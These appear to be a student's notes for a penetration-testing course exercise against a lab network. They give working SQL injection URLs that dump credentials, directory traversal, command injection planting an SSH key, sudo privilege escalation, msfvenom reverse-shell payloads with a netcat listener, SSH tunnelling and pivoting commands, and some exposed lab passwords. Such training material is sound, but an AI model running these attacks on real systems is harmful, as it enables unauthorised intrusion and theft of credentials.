SITREP: This is a dry run operation to prepare you for tomorrow's real operation. You will be provided with a mission task sheet, RoE, and scope.

Maintain 'low visibility' on the wire, as security products may be in place, and document your actions and results as you will be expected to provide OpNotes at the end of the operation. Take notes on this document.

Dry Run Operation

XX June 2024

Start Time: 0830

Duration: 3 hours

Type of Operation: Information Systems Penetration Test

Objective:Actively exploit and attack networked information systems for the purposes of identifying and reporting vulnerabilities. Tasking:Perform all tasks outlined in this document.

Mission Scope:

All public facing systems of target entitiy excluding devices responsible for networking (routers, switches, etc). Known web address will be supplied out of band.

Internal network of target entity excluding devices responsible for networking (routers, switches, etc)

RoE:

Google docs, and all other shareable document platforms, are forbidden during this operation.

All communication platforms and applications, such as Slack or Gmail, are forbidden during this operation.

You are authorized to modify passwords to user accounts.

Writing to disk is authorized on all machines.

You will not destroy data/systems, perform DoS, or otherwise disrupt business operations of any entity during this penetration test.

You will not use Metasploit tools for any affect with the exception of shellcode generation.

You will not target routers, switches or other networking devices.

You will not target entities or systems outside of the scope previously defined.

You will not interfere with other entities' operations in any way.

Prior Approvals: OSINT through publicly available resources. Scrape appropriate web content that will provide operational data. Testing of found credentials. NOT approved to change routing or destroy data.

****** Tunnels ***** Student@lin-ops ssh user2@10.50.40.253 -L 50511:192.168.172.22 -NT

Tunnel to user 2

Student@lin-ops ssh user2@localhost –p 50511 –L 50522:192.168.172:22 –NT

Tunnel to Aaron

From linops ssh Aaron@localhost –p 50522

for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done

Ping same network for new device

Cat /etc/hosts

Cat /etc/passwd

Move dynamic to Aaron : ssh Aaron@localhost –p 50511 –D 9050 -NT

Linoops proxychain nmap –Pn192.168.28.179

RDP from Aaron to LRoth

Student@lin-ops ssh Aaron@localhost –p 50522 –L 50533:192.168.28.179:3389 –NT

Msf6 payload(windows/shell_reverse_tcp)>generate –b “\x00\x0a\x0d\x20” -f pythin

Open Immunity Debugger to see if its broken

https:wireshark.eu/tools/buffer-overflow-pattern-generator/?

Patternt length of 5000 and copy the nre pattern with the code

Rund the code again and we should find a new EIP

NEW EIP will be the offset in wiremask

Student@lin-ops$ msfvenom –p windows/shell_reverse_tcp lhost=10.50.40.109 lport=4444 –b “\x00” -f python

Nc –lvp 4444

Proxychains ./WBF.py

*******************************************************************************

Perform Reconnaissance

1. Find all information about, and contained within, the target system to include potential phishing targets, website directory structure, and hidden pages.

2. Actively scan and interact with target to find potential attack vectors.

student@lin-ops:~$ for i in {1..254} ;do (ping -c 1 10.50.20.$i | grep "bytes from" &) ;done

Step1: Perform Nmap scan on the target from lin-ops

student@lin-ops:~$ sudo nmap -sS -Pn 10.50.27.209 -p 135-139,22,80,443,21,8080



Step2: Perform enumeration on the target IP on port 80

student@lin-ops:~$ nmap -Pn -sT 10.50.27.209 -p 80 --script http-enum.nse

Step 3: Once you do the enumeration make sure to change the proxy settings on the browser.

Settings---general---network settings---no proxy



Step 5: Login to the website and perform SQL Injection

http://10.50.27.209/login.php? username=tom' OR 1='1 & passwd=tom' OR 1='1

We get following information:

Array ( [0] => user2 [name] => user2 [1] => RntyrfVfNER78 [pass] => RntyrfVfNER78 ) 1

Array ( [0] => user3 [name] => user3 [1] => Obo4GURRnccyrf [pass] => Obo4GURRnccyrf )

1Array ( [0] => Lee_Roth [name] => Lee_Roth [1] => anotherpassword4THEages [pass] => anotherpassword4THEages )



Step 6: Enumerate the scripts from the website http://10.50.27.209/scripts/

We get following script:



Step 7: Perform directory traversal **make sure the URL does not say file***



Attempt Exploitation || Gain Initial Access

1. Use information gained from reconnaissance to gain access to the system.

Login to the target 10.50.27.209 Ssh user2@10.50.27.209

Paswd: EaglesIsARE78

Find Additional Targets

1. Perform post-exploitation tasks (situational awareness, localhost enumeration, etc).

2. Discover additional targets through analysis of information from post-exploitation tasks.

Once you are logged in to T1. Use the following commands

Ls

Cd etc

Cat hosts

we have another target: 192.168.28.181 webapp



To Discover additional targets:

To Perform recon for further target (make sure you are on bash sheel)

Step1: log in to T1(10.50.27.209)

Step 2: type bash

Step 3: scan for other IP’s

user2@PublicFacingWebsite:/$ for i in {1..254};do (ping -c 1 192.168.28.$i | grep "bytes from" &); done



Pivot to Found Targets

1. Pivot through network to other targets as you find them.

Step 1: Create a Dynamic tunnel from lin-ops to T1(10.50.27.209)

student@lin-ops:~$ ssh user2@10.50.27.209 -D 9050 -NT



system_user=user2

user_password=EaglesIsARE78

Step 2: Perform nmap scan using proxy chains on the target 192.168.28.181

student@lin-ops:~$ proxychains sudo nmap -sS -Pn 192.168.28.181 -p 135-139,22,80,443,21,8080

Nmap –Pn – 192.168.28.181 -sV

Nmap –Pn – 192.168.28.181 --script -enum



Step 3: open up firefox settings and change back proychains by going --> network setting --> manual proxy config --> Socks host: localhost | port 9050.



Step 4: Go to the website

http://192.168.28.181

BestWebApp

Perform Reconnaissance

1. Find all information about, and contained within, the target system to include potential phishing targets, website directory structure, and hidden pages.

2. Actively scan and interact with target to find potential attack vectors.

Step 1: Go to the website

http://192.168.28.181



Attempt Exploitation

1. Attempt to retrieve privileged information from the target by using information found in reconnaissance. Reconnaissance from other targets within the network may have information relevant to any target.

Step 1: select one of the options and hit submit

Step 2: This provides us with some information indicating this is using Get Method

Step 3: To find the vulnerable section

Delete everything after product =8 and type or 1=1. Now try combination from product=1 to 8.

In our case we have 7 as the vulnerable section as it gives information on other products as well beside just that selection

Here, we know this database has 3 columns. To verify if there are other columns in the database use the union select statement

http://192.168.28.181/pick.php?product=7 union select 1,2



Try again with added number on select

http://192.168.28.181/pick.php?product=7 union select 1,2,3



Step 4: to grab further information from the database type following union select statement:

http://192.168.28.181/pick.php?product=7 union select table_schema, column_name, table_name FROM information_schema.columns

Step 5: Scroll to the bottom of the page



Tabel_schema = database name = siteusers

column_Name = column name = users,customer etc

table_Name = table name = username, user-id, id etc

Right click to duplicate the tab

Step 6: to get the information on user_id, username and username from the database use the following union statement

http://192.168.28.181/pick.php?product= Union SELECT user_id, name, username FROM siteusers.users

Here, replace table_schema, name and column name with the columns on the user table

Syntax for union

<URL>/uniondemo.php?Selection=2 UNION SELECT table_name,1,column_name FROM information_schema.columns

Change the password to ROT13:

Aaron: ncnffjbeqlCn$$jbeq = apasswordyPa$$word

User3 = Obo4GURRnccyrf = Bob4THEEapples

RoundSensor

Perform Reconnaissance

1. Actively scan and interact with target to find potential attack vectors.

From

Step 1: On public facing webiste perform bash shell perform ping sweep

user2@PublicFacingWebsite:/$ for i in {1..254};do (ping -c 1 192.168.28.$i | grep "bytes from" &); done



Perform nmap scan on the target T3(192.168.28.172)

student@lin-ops:~$ proxychains nmap -Pn 192.168.28.172 -p 135-139,22,80,443,21,8080



Here we know the target (192.168.28.172) has port 22 open.

Step 2: from lin-ops scan the T3

student@lin-ops:~$ proxychains nmap -Pn 192.168.28.172

Step 3: Verify the services and port



Step 4: Create a new Tunnel to target 192.168.28.172

student@lin-ops:~$ ssh user2@10.50.36.154 -L 50511:192.168.28.172:22 -NT

Step 5: Login to the target using Aaron

student@lin-ops:~$ ssh Aaron@localhost -p 50511

Step 6: Conduct post exploitation on the box and go to a bash shell

Echo $0



Ps –elf

Aaron@RoundSensor:/$ cat /etc/crontab

Ls /home

Aaron@RoundSensor:/$ cat /etc/crontab

Step 7: Go to bash shell

Bash



Step 8: check if there are other hosts who can talk to Aaron

Cat /etc/hosts



Step 9: Do a ping sweep to identify more targets

Aaron@RoundSensor:/$ for i in {1..255};do (ping -c 1 192.168.28.$i | grep "bytes from"&);done



Step 10: go to home cd /home

ls –la



Step 11: To escalate privilege

A. Type sudo –l to see what aaron can run as user



Here, we see Aaron can run find so lets go to gtfobins ----sudo----find

Copy the sudo command for escalated privileges



Paste it on the bash..this gives us root privilige



Now to elevate the privileged

1:

2:L Go to gtf

3: Go to sudo function and copu the find function

4;



Step 5: cd to root

Cd /root

Look for shadow file, cron jobs, etc/passwd,



Step 6: finding other IP’s for loop



Step 7: Close all the tunnels and create a new one

student@lin-ops:~$ ssh user2@10.50.36.154 -L 50511:192.168.28.172:22 –NT

User user2 password

Step 8: Create a dynamic tunnel to .172

Ssh Aaron

Step 8: Login to .172

student@lin-ops:~$ ssh Aaron@localhost -p 50511

Step 9: Ping sweep

for i in {1..255};do (ping -c 1 192.168.28.$i | grep "bytes from"&);done



Student@lin-ops ssh user2@10.50.40.253 -L 50511:192.168.172.22 -NT

Tunnel to user 2

Student@lin-ops ssh user2@localhost –p 50511 –L 50522:192.168.172:22 –NT

Tunnel to Aaron

From linops ssh Aaron@localhost –p 50522

for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done

Ping same network for new device

Cat /etc/hosts

Cat /etc/passwd

Move dynamic to Aaron : ssh Aaron@localhost –p 50511 –D 9050 -NT

Linoops proxychain nmap –Pn192.168.28.179



RDP from Aaron to LRoth

Student@lin-ops ssh Aaron@localhost –p 50522 –L 50533:192.168.28.179:3389 -NT



Attempt Exploitation || Gain Initial Access

3. Use information gained from reconnaissance to gain access to the system. Reconnaissance from other targets within the network may have information relevant to any target.

Find Additional Targets

4. Perform post-exploitation tasks (situational awareness, localhost enumeration, privilege escalation, etc).

5.

6. Discover additional targets through analysis of information from post-exploitation tasks.

Pivot to Found Targets

7. Pivot through network to other targets as you find them.

PublicFacingWebsite

· Perform Reconnaissance

i. Find all information about, and contained within, the target system to include potential phishing targets, website directory structure, and hidden pages.

ii. Actively scan and interact with target to find potential attack vectors.

· Attempt Exploitation || Gain Initial Access

iii. Use information gained from reconnaissance to gain access to the system.

· Find Additional Targets

iv. Perform post-exploitation tasks (situational awareness, localhost enumeration, etc).

v. Discover additional targets through analysis of information from post-exploitation tasks.

· Pivot to Found Targets

vi. Pivot through network to other targets as you find them.

Notes for PublicFacingWebsite

· Starting from T1:

o for i in {1..254} ;do (ping -c 1 10.50.20.$i | grep "bytes from" &) ;done

o sudo nmap -sS -Pn 10.50.20.191 -p 135-139,22,80,443,21,8080

PORT STATE SERVICE 21/tcp filtered ftp 22/tcp open ssh 80/tcp open http 135/tcp filtered msrpc 136/tcp filtered profile 137/tcp filtered netbios-ns 138/tcp filtered netbios-dgm 139/tcp filtered netbios-ssn 443/tcp filtered https 8080/tcp filtered http-proxy

· T1 cont:

o wget 10.50.20.191:80 (opens up the webserver)

o firefox, type in that ip address

o sudo nmap -sS -Pn 10.50.20.191 --script http-enum Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-18 14:24 UTC Nmap scan report for 10.50.20.191 Host is up (0.0021s latency). Not shown: 998 filtered ports PORT STATE SERVICE 22/tcp open ssh 80/tcp open http | http-enum: | /login.php: Possible admin folder | /login.html: Possible admin folder | /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)' |_ /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)' Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds

· T1 cont:

o go to website and inspect the 'employee login' page html, see that it has a login.php option

o do a sql injection with http://10.50.20.191/login.php?username=tom%27%20OR%201=%271%20&%20passwd=tom%27%20OR%201=%271 (copy and pasted from our notes) and get the following info

§ Array ( [0] => user2 [name] => user2 [1] => RntyrfVfNER78 [pass] => RntyrfVfNER78 ) 1Array ( [0] => user3 [name] => user3 [1] => Obo4GURRnccyrf [pass] => Obo4GURRnccyrf ) 1Array ( [0] => Lee_Roth [name] => Lee_Roth [1] => anotherpassword4THEages [pass] => anotherpassword4THEages ) 1

§ user2: RntyrfVfNER78 (EaglesIsARE78)

§ user3: Bob4THEEapples

o Sadly this doesn't exactly get us anywhere at the moment, but may be helpful later. So! Let's go back to that nmap --script http-enum thing and enumerate all of those website

§ login.php, we've seen before

§ login.html, we've seen before

§ img, some cool photos I guess

§ scripts, open it up!!! look below

#!/usr/bin/python3 import os

system_user=user2 user_password=EaglesIsARE78 ##Developer note #script will eventually take above system user credentials and run automated services

BestWebApp

· Perform Reconnaissance

vii. Find all information about, and contained within, the target system to include potential phishing targets, website directory structure, and hidden pages.

viii. Actively scan and interact with target to find potential attack vectors.

· Attempt Exploitation

ix. Attempt to retrieve privileged information from the target by using information found in reconnaissance. Reconnaissance from other targets within the network may have information relevant to any target. BestWebApp

Start of T2 enumeration (BestWebApp Notes) · ssh user2@10.50.20.191

· cd etc

· cat hosts

# The following lines are desirable for IPv6 capable hosts ::1 ip6-localhost ip6-loopback fe00::0 ip6-localnet ff00::0 ip6-mcastprefix ff02::1 ip6-allnodes ff02::2 ip6-allrouters ff02::3 ip6-allhosts 192.168.28.181 WebApp

· ping sweep with for i in {1..254};do (ping -c 1 192.168.28.$i | grep "bytes from" &); done

64 bytes from 192.168.28.172: icmp_seq=1 ttl=63 time=1.98 ms 64 bytes from 192.168.28.181: icmp_seq=1 ttl=63 time=2.09 ms 64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.467 ms · open up dynamic back on LIN-OPS STATION ssh -D 9050 user2@10.50.20.191 -NT with the T1 creds you found

· nmap scan now for ports proxychains sudo nmap -sS -Pn 192.168.28.181 -p 135-139,22,80,443,21,8080

PORT STATE SERVICE 21/tcp filtered ftp 22/tcp filtered ssh 80/tcp filtered http 135/tcp filtered msrpc 136/tcp filtered profile 137/tcp filtered netbios-ns 138/tcp filtered netbios-dgm 139/tcp filtered netbios-ssn 443/tcp filtered https 8080/tcp filtered http-proxy

· open up firefox settings and change back proychains by going --> network setting --> manual proxy config --> Socks host: localhost | port 9050.

· go to 192.168.28.181 pn firefox

o it has a bunch of inventory for various electronics. Might be able to exploit?

o let's try to use SQL injection to see what is vulnerable

o start by trying to find total dump of usual database : http://192.168.28.181/pick.php?product=7%20or%201=1 so 7 is vulnerable and use or 1=1 to find it. From there we get the 3 columns needed o http://192.168.28.181/pick.php?product=7%20Union%20SELECT%20table_schema,%20column_name,%20table_name%20FROM%20information_schema.columns o http://192.168.28.181/pick.php?product=7%20Union%20SELECT%20user_id,%20name,%20username%20FROM%20siteusers.users

Item On Hand Price HAM 32 $15 1 Aaron $Aaron 2 user2 $user2 3 user3 $user3 4 Lroth $Lee_Roth 1 ncnffjbeqlCn$$jbeq $Aaron 2 RntyrfVfNER78 $user2 3 Obo4GURRnccyrf $user3 4 anotherpassword4THEages $Lroth

· aaron password translated from ROT13 --> apasswordyPa$$word

· run nmap to see open ports for ips: proxychains nmap -Pn 192.168.28.172 -p 135-139,22,80,443,21,8080 · see that ssh is open, try to ssh to it using Aaron@192.168.28.172 --> brings you to RoundSensor

RoundSensor

· Perform Reconnaissance

x. Actively scan and interact with target to find potential attack vectors.

· Attempt Exploitation || Gain Initial Access

xi. Use information gained from reconnaissance to gain access to the system. Reconnaissance from other targets within the network may have information relevant to any target.

· Find Additional Targets

xii. Perform post-exploitation tasks (situational awareness, localhost enumeration, privilege escalation, etc).

xiii. Discover additional targets through analysis of information from post-exploitation tasks.

· Pivot to Found Targets

xiv. Pivot through network to other targets as you find them.

Start of T3 enumeration (RoundSensor Notes)

· etc/hosts/ --> no useful ips

· for i in {1..254};do (ping -c 1 192.168.28.$i | grep "bytes from" &); done

64 bytes from 192.168.28.172: icmp_seq=1 ttl=64 time=0.031 ms 64 bytes from 192.168.28.179: icmp_seq=1 ttl=128 time=2.03 ms 64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.764 ms

Windows-Workstation

· Perform Reconnaissance

xv. Actively scan and interact with target to find potential attack vectors.

· Attempt Exploitation || Gain Initial Access

xvi. Use information gained from reconnaissance to gain access to the system. Reconnaissance from other targets within the network may have information relevant to any target.

· Find Additional Targets

xvii. Perform post-exploitation tasks (situational awareness, localhost enumeration, privilege escalation, etc).

xviii. Discover additional targets through analysis of information from post-exploitation tasks.

· Pivot to Found Targets

xix. Pivot through network to other targets as you find them.

NOTES •

Instructor notes for DryRun

2 parts: 16 part 1. 15 part 2. Need 22 questions total to pass.

Will kno wwhat box you're on because it will say it on the host name. So any questions with Linux 1 will be on the Linux 1 box. But be aware that that same box might have questions in multiple boxes (priv esc, recon, etc)

Questions will have between 3-5+ attempts

start of boxes

T1:

· nmap -Pn 10.50.26.76

· nmap -Pn 10.50.26.76 --scripts http-enum

· enumerate pages based on what aboce command finds

· look through for scripts, it shoudl pop up with the creds user2:****password

· in username area do tom' or 1=1#

· or use dev console 10.50.20.191/login.php?username=tom' or 1='1&passwd=tom' or 1='1

· this gives us that list of passwords and usernames again

· command injection and directory traversal (CHECK BOTH)

o directory traversal: ../../../../../../../../etc/passwd this will give us username, home directory, and default shell

o cmd injection: ;whoami --> ssh key upload if this works

§ ;ls/var/www/html -la to see if there are any other pages and enumerate the website

BESTWEBAPP TRAVERSAL · now actually get on box with ssh user2@10.50.25.76 -D 9050 (through dynamic just incase it's needed)

· enumerate other networks: cat /etc/hosts gives us a new ip address 192.168.28.1181 WebApp

· scan that network with for i in {1..255};do (ping -c 1 192.168.28.$i | grep "bytes from"&);done

· check root web directory ls -la /var/www/html/ to ensure website is fully enumerated

· no need to priv esc

· logging tho -->

o ps -elf | grep rsyslog --> cat /etc/rsyslog.conf or cat /etc/ryslog.d/

o cat /etc/crontab

o cd /home

· go back to scnnaing IP addresses

o proxyhcains nmap -Pn 192.168.28.181

§ web and 22

· proxyhcains nmap -Pn 192.168.28.181 --scripts http-enum because it has web

o proxyhcains nmap -Pn 192.168.28.172

§ just ssh (22)

ssh user2@ip -L 1111:NEED TO FIX from instructor

· firefox to 192.168.28.181

· see that it has a table, so SQL Injection

o seince dealing with numner pick.php?product=6 or 1=1 but try other numbers in product to see what works. It works for 7 tho so pick.php?product=7 or 1=1 so it's vulnerable to SQL injection

o now you need to find the columns needed for union select

§ product=7 UNION 1,2,3 --> this works, if you do 3,4 or 1,2 it throughs an error sayin gthings don't exsist, so need the right number of columns, which is 3. This tells us how it is formatted vs how it is viewed to you

§ product=7 UNION SELECT table_schema, column_name, table_name, FROM information_schema.columns

§ now that you know all the data bases, we care about the siteuser database so product=7 UNION SELECT user_id,name,username FROM siteuser.users (columns from database_name.table_name). This should give use a few more usernames and databases

· most importantly is lee roth and Aaron

NOW ON SENSORROUND · now built new tunnel: ssh user2@10.50.25.76 1111:192.168.28.172:22

· get onto Aaron: ssh Aaron@localhost -p 1111 -D 9050

· now get bash shell bash

· see who Aaron can talk to: cat /etc/hosts

· see ip address ports for i in {1..255};do (ping -c 1 192.168.28.$i | grep "bytes from"&);done

· see home: cd /home ls -la

· SEE IF YOU CAN ESCALATE: sudo -l --> gtfobins --> find --> sudo --> read what it does and copy and paste into it to see if you can get root --> type bash again to get a a bash shell

· NOW YOURE ROOT! (this is as hard as it should be on the test)

· if you don't hae sudo: find / -type f -perm /4000 -ls 2>/dev/null, copy and paste into a word document and try them all in GTFO bins and see what you can do.

· now go into root --> cd root, ls -la --> chmod +x any executable you find of interest, try and take any files or cool things you see and cat them

· REMEMBER RSYSLOG --> key files, what it does, etc etc

· proxychains nc 192.168.28.179 9999

· run windows buffer overflow which runns reverse shell

· nc -lvnp 4444 --> get's you on box

WINDOWS MACHINE

· ssh Aaron@loclahost -p 1111 -L 2222:<#ip>:3389 (windows rdp connection)

· now on windows box (with gui): check out file directory, view --> click hidden items and file name extension

· now go to this pc --> user files --> dfault folders, etc, users, (light folder means hidden) now check lroth, documents, etc, just general enumeration

· go to run and runonce in regedits for persistence --> HKCU and HKLM --> this could show some additional commands of interest to us

· go to services --> properties --> description --> look for blank things --> right click --> etc etc

· if you are required to replace an exevutable, it will be shown to you and etc etc

o if not, you will have to do DLL hijack and use same steps as in challenges

· scheduled tasks

o can get a little wonky. can only see them for your current user

THINGS THAT WEREN'T ON DRY RUN

· robots.txt for http-enum. be sure to go to all those places even if they say disallow. Just check it all out

· cmdinjection o http://10.50.28.52/cmdinjection/

o ;whoami --> www-data

o ;ls -la /var/www/html

· ssh key

o ;whoami

o find user, then find their home directory --> ;cat /etc/passwd -> www-data❌33:33:www-data:/var/www:/bin/bash

o now you need to know if that home directory contais ssh ;ls -la /var/www

o make a .ssh directory mkdir /var/www/.ssh

o make an ssh key (rsa_id.pub etc etc) --> in your personal home directory ssh-keygen -t rsa then click enter a ton of times till back to normal comand prompt

o want to upload teh *PUBLIC key not your private key.

§ cat id_rsa.pub then copy just the text

§ ;echo "<paste key here>" >> /var/www/.ssh/authorized_keys o back on home directory ssh www-date@10.50.28.52, if everythign works, you should get in without a password

o do web enumeration again ls -la /var/www/html

· tunnels

o the box you authenticate to, that ishte box that can talk to the distant box

o ssh www-data@<#ip> -L 1111:<#ip192.68.28.100>:22

· exploit dev (save for last)

o gdb func pdisas main = green is good red is potentially exploitable

o he student guide, slide, and notes will be our best bet for the test

